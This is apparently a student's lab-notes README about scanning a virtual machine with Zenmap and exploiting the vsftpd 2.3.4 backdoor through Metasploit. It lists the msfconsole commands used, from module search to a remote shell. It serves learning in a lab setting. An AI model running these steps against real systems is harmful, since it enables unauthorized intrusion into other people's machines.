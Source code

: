 # Finding open ports and exploiting them

Using Kali Linux and Metasploit (using virtual lab)

---
## 2025-08-14
**Steps:**  
- Open Zen map and scan for IP with quick scan.
- Find the IP of the virtual machine to exploit.
- Scan that IP for open ports with intense scan in Zen map.
- Select the vulnerability to exploit.
- Learn about that port and vulnerability from Rapid 7 on Google.

**Commands/Tools practiced:**  
```
`msfconsole`
 `search <open port>`
 example `search vsftpd 2.3.4`
 Interact with a module by name or index. For example **info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor**
 `use 1`
 `show options` ( to check requirements)
 (as per requirement)
 `set RHOSTS <IP of the victim pc>`
 `exploit`
 `ls` (for the list)
 `shell` (for proper format)
 `help`
 
```

[Screenshot (46)](assests/Screenshot%20(46).png)
[Screenshot 2025-08-14 173208](Screenshot%202025-08-14%20173208.png)
[Screenshot 2025-08-14 173107](Screenshot%202025-08-14%20173107.png)


